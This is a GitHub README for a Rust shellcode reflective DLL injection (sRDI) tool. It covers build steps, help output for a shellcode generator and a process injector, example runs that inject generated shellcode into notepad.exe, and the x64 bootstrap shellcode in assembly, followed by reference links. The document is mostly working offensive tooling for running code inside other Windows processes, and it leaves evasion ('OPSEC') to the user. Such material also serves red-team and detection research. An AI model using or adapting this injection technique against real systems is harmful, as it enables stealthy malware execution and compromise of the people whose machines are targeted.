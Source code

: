 # Shellcode Reflective DLL Injection (sRDI)

Shellcode reflective DLL injection (sRDI) is a process injection technique that allows us to convert a given DLL into a position-independent code which can then be injected using our favourite shellcode injection and execution technique.

## Features

- The size of the reflective loader is approximately 4KB.

- Does not release the memory that was allocated by the injector, nor does it remove any existing `RWX` permissions set by the user injector, if applicable.

- Does not overwrite or erase the DOS or NT Headers of the newly allocated memory after/before resolving imports or rebasing image.

- Applies protection settings for each section allocated by the `VirtualAlloc` function, and subsequently executes either DllMain or SayHello functions.

What about `OPSEC`? Feel free to implement it yourself :)

## Usage

0). [Install Rust](https://www.rust-lang.org/tools/install)

1). Build all of the projects

```
cargo build --release
```

2). Generate the shellcode.

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\generate_shellcode.exe -h
Shellcode Reflective DLL Injection (sRDI)

Usage: generate_shellcode.exe [OPTIONS] --loader <LOADER> --payload <PAYLOAD> --function <FUNCTION> --parameter <PARAMETER> --output <OUTPUT>

Options:
      --loader <LOADER>        The reflective loader DLL path (loader.dll)
      --payload <PAYLOAD>      The payload DLL path (payload.dll)
      --function <FUNCTION>    The function to execute inside payload.dll (SayHello)
      --parameter <PARAMETER>  The parameter to pass to the function inside payload.dll (https://localhost:1337/)
      --output <OUTPUT>        The output file path (shellcode.bin)
      --flags <FLAGS>          The 0x0 flag will execute DllMain and any other flag will execute the function inside payload.dll (SayHello) [default: 1]
  -h, --help                   Print help
  -V, --version                Print version
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

3). Bring your own injector (BYOI) and inject the position-independent code with your favourite injection and execution technique or use the one in the repository.

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\inject.exe -h
Simple Injector for PoC

Usage: inject.exe --process <PROCESS> --file <FILE>

Options:
      --process <PROCESS>  The target process name (notepad.exe)
      --file <FILE>        The PIC file path (shellcode.bin)
  -h, --help               Print help
  -V, --version            Print version
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

## Example

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs> cargo build --release
    Finished release [optimized] target(s) in 0.04s
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs>
```

### DLLMain

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\generate_shellcode.exe --loader .\reflective_loader.dll --payload .\payload.dll --function SayHello --parameter https://127.0.0.1:1337/ --flags 0 --output shellcode.bin

Loader Path: .\reflective_loader.dll
Payload Path: .\payload.dll
Output Path: shellcode.bin
[+] Reflective Loader Offset: 0x400
[!] Bootstrap Shellcode Length: 79 (Ensure this matches BOOTSTRAP_TOTAL_LENGTH in the code)
[+] Reflective Loader Length: 3584
[+] Payload DLL Length: 113664
[+] Total Shellcode Length: 117350
[*] loader(payload_dll: *mut c_void, function_hash: u32, user_data: *mut c_void, user_data_len: u32, _shellcode_bin: *mut c_void, _flags: u32)
[*] arg1: rcx, arg2: rdx, arg3: r8, arg4: r9, arg5: [rsp + 0x20], arg6: [rsp + 0x28]
[*] rcx: 0xe4a rdx: 0x756de3c6 r8: https://127.0.0.1:1337/, r9: 0x17, arg5: ???, arg6: 0
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\inject.exe --process notepad.exe --file .\shellcode.bin

[+] Process ID: 9944
[+] Process handle: 184
[+] Allocated memory in the target process for the shellcode: 0x19e49950000
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

![./ExampleDllMain.png](./ExampleDllMain.png)


### SayHello

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\generate_shellcode.exe --loader .\reflective_loader.dll --payload .\payload.dll --function SayHello --parameter https://127.0.0.1:1337/ --flags 1 --output shellcode.bin

Loader Path: .\reflective_loader.dll
Payload Path: .\payload.dll
Output Path: shellcode.bin
[+] Reflective Loader Offset: 0x400
[!] Bootstrap Shellcode Length: 79 (Ensure this matches BOOTSTRAP_TOTAL_LENGTH in the code)
[+] Reflective Loader Length: 3584
[+] Payload DLL Length: 113664
[+] Total Shellcode Length: 117350
[*] loader(payload_dll: *mut c_void, function_hash: u32, user_data: *mut c_void, user_data_len: u32, _shellcode_bin: *mut c_void, _flags: u32)
[*] arg1: rcx, arg2: rdx, arg3: r8, arg4: r9, arg5: [rsp + 0x20], arg6: [rsp + 0x28]
[*] rcx: 0xe4a rdx: 0x756de3c6 r8: https://127.0.0.1:1337/, r9: 0x17, arg5: shellcode.bin addy, arg6: 1
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

```
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release> .\inject.exe --process notepad.exe --file .\shellcode.bin
[+] Process ID: 9944
[+] Process handle: 184
[+] Allocated memory in the target process for the shellcode: 0x19e499c0000
PS C:\Users\memN0ps\Documents\GitHub\srdi-rs\target\release>
```

![./ExampleSayHello.png](./ExampleSayHello.png)

## Description

The bootstrap shellcode:

```asm
call 0x00
pop rcx
mov r8, rcx

push rsi
mov rsi, rsp
and rsp, 0x0FFFFFFFFFFFFFFF0
sub rsp, 0x30

mov qword ptr [rsp + 0x20], rcx
sub qword ptr [rsp + 0x20], 0x5
mov dword ptr [rsp + 0x28], <flags>

mov r9, <parameter_length>
add r8, <parameter_offset> + <payload_length>
mov edx, <parameter_hash>
add rcx, <payload_offset>

call <loader_offset>

nop
nop

mov rsp, rsi
pop rsi
ret

nop
nop
```

The shellcode.bin file layout in memory:

[![sRDI](./sRDI.png)](https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/)

**Credits: [Nick Landers @(monoxgas)](https://github.com/monoxgas)**

## References and Credits

* https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/
* https://github.com/monoxgas/sRDI
* https://github.com/stephenfewer/ReflectiveDLLInjection/
* https://discord.com/invite/rust-lang-community (Rust Community #windows-dev channel)
* https://github.com/dismantl/ImprovedReflectiveDLLInjection
* https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html
* https://bruteratel.com/research/feature-update/2021/06/01/PE-Reflection-Long-Live-The-King/
* https://github.com/Cracked5pider/KaynLdr
* https://github.com/Ben-Lichtman/reloader/
* https://github.com/not-matthias/mmap/
* https://github.com/memN0ps/mmapper-rs
* https://github.com/2vg/blackcat-rs/tree/master/crate/mini-sRDI
* https://github.com/Jaxii/idk-rs/
* https://github.com/janoglezcampos/rust_syscalls/